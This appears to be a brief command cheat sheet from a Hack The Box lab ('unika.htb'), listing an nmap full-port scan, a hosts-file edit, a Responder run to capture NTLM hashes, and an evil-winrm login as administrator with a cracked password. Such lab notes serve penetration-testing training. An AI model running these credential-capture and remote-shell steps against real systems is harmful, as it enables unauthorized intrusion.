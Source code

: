 ```bash
sudo ip link set dev tun0 mtu 1200

nmap -p- --min-rate 5000 -sV 10.129.136.91

echo "10.129.76.73 unika.htb" | sudo tee -a /etc/hosts
```

---

### Responder

```linux
sudo python3 Responder.py -I tun0

evil-winrm -i 10.129.136.91 -u administrator -p badminton
```
